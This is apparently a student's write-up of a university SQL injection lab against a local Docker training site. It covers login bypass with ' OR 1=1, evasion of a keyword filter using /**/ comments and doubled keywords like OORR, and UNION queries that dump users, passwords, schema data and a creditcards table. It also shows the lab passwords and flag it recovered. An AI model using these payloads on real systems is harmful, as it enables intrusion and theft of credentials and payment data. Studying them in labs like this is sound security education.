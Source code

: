 ## Tommaso Soncin
## 890558@stud.unive.it
# Introduction
In this first challenge of the *System Security* course held by prof. Riccardo Focardi we're asked to experiment with SQLi, commonly known as SQL Injection.
Before that, there are some prerequisites and some "warm up" tasks, which will be necessary to unlock the challenge.
First of all, there's a docker image to run in order to access the vulnerable website:
```bash
docker run -it -p 8080:80 secunive/seclab:lab3
# Use this if you're using arch (btw) or derivatives, mysqld allocates all the memory of the system thus making it unresponsive
docker run --ulimit nofile=262144:262144 -it -p 8080:80 secunive/seclab:lab3
```
# Task 1
In this first task we're supposed to check what we've seen in class by testing a inband SQL Injection, that is a type of SQL Injection where the communication channel is the same.
After navigating to http://localhost:8080/task1/ we find a login form that we have to exploit.
Looking at the *Database Security* slides, mainly slide n.16 we see a similar query as the one in the first task description.
After trying the following credentials
```
```admin
' OR 1=1 -- 
```
we can see that they worked properly, giving us the password for the second task: `IVQQ9GyrPMuo1aGD`
![[task1-sqli.png]]
# Task 2
In this second task we're asked to bypass an ad-hoc sanitization method, fortunately it's not perfect and we can exploit it.
This sanitization removes some common keywords such as UNION, OR, $\dots$ and some common characters like " and the white space.
MySQL, being the greatest DBMS alive (joking),  allows \/\*\*\/, also known as a empty comment, to be treated as a white space, making that part of the sanitization process useless.
After trying the same credentials as before, the SQL query is dumped:
```sql
SELECT mail, password FROM users WHERE password = '' AND mail = 'admin'
```
As we can see, the OR keyword was replaced by the empty string.
Knowing that the mail I had to exploit was still "admin", first of all I tried to trick the sanitization by adding random whitespace within the keyword:
```
'/**/O/**/R/**/1=1/**/# 
```
This did not work.

After this first fail, I tried to trick the sanitization by adding the empty comment to keep the truthy condition:
```
'/**/OR/**/1/**/=/**/1/**/#
```
That second section gets parsed as 1 = 1 # skipping entirely the sanitization for the second part of the query.
Lastly, I had to find a way to keep the OR keyword. Since the string replacement was non-recursive, no surrounding were ever checked, meaning that if the input contained OORR / AANDND the sanitizer would only remove the first occurrence of the keywords and thus skipping entirely the resulting string. Combining the previous part with this new discovery, it worked, granting me the second password: `GZOntyu4yJ1FjkEl`
```
admin
'/**/OORR/**/1/**/=/**/1/**/#
```
![[task2-sqli.png]]
# Phase 3
In this third task we're asked to leak information from a mock search engine.
This task is divided in three different exercises:
## Exercise 1
I had to leak the full list of users, how did I do that?
First of all, I had to know the "starting query", this can be done by simply writing a incorrect injection/sql keyword to make the search engine print the query attempt, for example by copying the example query after the first exercise of this phase and adding some random keyword like UNION; writing this in the prompt:
```sql
' UNION SELECT name, phone FROM doctors UNION SELECT name, phone FROM nurses;
```
The query will become invalid and print the error:
![[invalid-query.png]]
now I know the table to dump,  given that I can dump the data with this query in the prompt:
```sql
' UNION SELECT name, lastname, url FROM people#
```
## Exercise 2
Simply testing this query in the prompt:
```sql
' UNION SELECT 1,1,1 FROM people#
```
## Exercise 3
In this exercise I had to find the passwords of all users, to do that I had to extend the previous query to list the passwords of the users. Unfortunately the field name was not known to me, so there had to be some guessing of the field. Trying *password* as a column name gave me the password:
```sql
' UNION SELECT 1,1,password FROM people#
```
`task4_password_is{F9NCcGgVufau4SwR}`
# Phase 4
Lastly, I had to find the flag to obtain the proof of work.
To do so I had to find a row that contains a value like this: `FLAG{...}`.
First of all I dumped all the table names to find all the table names, to see if something interesting was available. This was done using with the following query in the prompt of the search engine:
```sql
' UNION SELECT table_schema, table_name, 1 FROM information_schema.tables#
```
This query gave me three different tables that were not generated by MySQL: *creditcards, people, users*.
After that, I had to find the column names of the previous tables, meaning that I had to find the tables that matched table_schema=lab3_sqli.
```sql
'UNION SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema="lab3_sqli"#
```
Now it was just a matter of trying different combinations of columns. Here's the final query:
```sql
' UNION SELECT mail, cctype, ccnumber FROM creditcards#
```
`FLAG{OMG_Th3r3_1s_4_fl4g_h3r3!}`